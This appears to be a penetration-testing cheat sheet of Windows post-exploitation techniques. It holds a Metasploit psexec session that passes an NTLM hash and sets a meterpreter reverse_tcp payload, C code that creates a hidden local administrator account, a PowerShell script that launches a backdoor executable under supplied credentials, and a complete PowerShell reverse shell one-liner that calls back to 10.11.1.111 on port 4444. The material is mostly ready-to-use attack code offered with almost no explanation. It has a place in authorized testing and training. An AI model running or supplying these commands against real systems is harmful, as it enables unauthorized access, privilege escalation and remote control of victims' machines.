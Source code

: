```
msf5 exploit(windows/smb/psexec) > set rhosts 10.10.0.100
rhosts => 10.10.0.100

msf5 exploit(windows/smb/psexec) > set smbuser admin2

smbuser => admin2

msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

smbpass => aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

```

### Scripts

#### Useradd

````
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile Exploit
i686-w64-mingw32-gcc -o useradd.exe useradd.c

i686-w64-mingw32-gcc 40564.c -o exp.exe -lws2_32 #Win cross compiler
````

#### Powershell Run As

```
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```

#### Powershell Reverse Shell

```powershell
Set-ExecutionPolicy Bypass

$client = New-Object System.Net.Sockets.TCPClient('10.11.1.111',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
